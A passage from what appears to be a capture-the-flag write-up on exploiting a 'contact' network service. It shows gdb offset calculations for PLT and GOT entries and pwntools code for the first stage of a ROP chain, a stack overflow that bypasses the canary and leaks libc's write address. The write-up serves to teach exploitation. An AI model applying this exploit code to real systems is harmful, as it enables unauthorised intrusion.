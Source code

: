The PLT address of `write` is 0x000055d9d3d0d050. I can subtract off the base I calculated earlier to get the offset:

```

gdb-peda$ p 0x000055d9d3d0d050-0x55d9d3d0c000
$4 = 0x1050

```

I can also calculate the GOT offset from the base address here as well:

```

gdb-peda$ p 0x55d9d3d10028 - 0x55d9d3d0c000
$5 = 0x4028

```

Finally, I need the file descriptor to write to. When I run locally, I see it it starts listening on fd 3, and new child connections start on 4:

```

root@kali# ./contact
listen on port 1337, fd is 3
[+] Request accepted fd 4, pid 0
[+] Request accepted fd 4, pid 0

```

So I’ll write to 4.

#### Code

Putting all of that together, I can write the following code:

```

### Stage 1: Leak libc
# Gadgets
prog_base = u64(ret) - 0x1562
pop_rdi_ret = p64(0x164b + prog_base)
pop_rsi_r15_ret = p64(0x1649 + prog_base)
pop_rdx_ret = p64(0x1265 + prog_base)
write = p64(0x1050 + prog_base)
write_got = p64(0x4028 + prog_base)

junk = b"A"*56
exploit =  junk + canary + rbp

# write(4, write_got, 8)
exploit += pop_rdi_ret
exploit += p64(4)
exploit += pop_rsi_r15_ret
exploit += write_got
exploit += p64(0)
exploit += pop_rdx_ret
exploit += p64(8)
exploit += write

log.info("Sending exploit to leak libc write address")
p = remote(host, port)
p.recvuntil("Please enter the message you want to send to admin:\n")
p.send(exploit)
libc_write = p.recv(8, timeout=300)
log.success(f"libc write address: 0x{u64(libc_write):016x}")
p.close()

```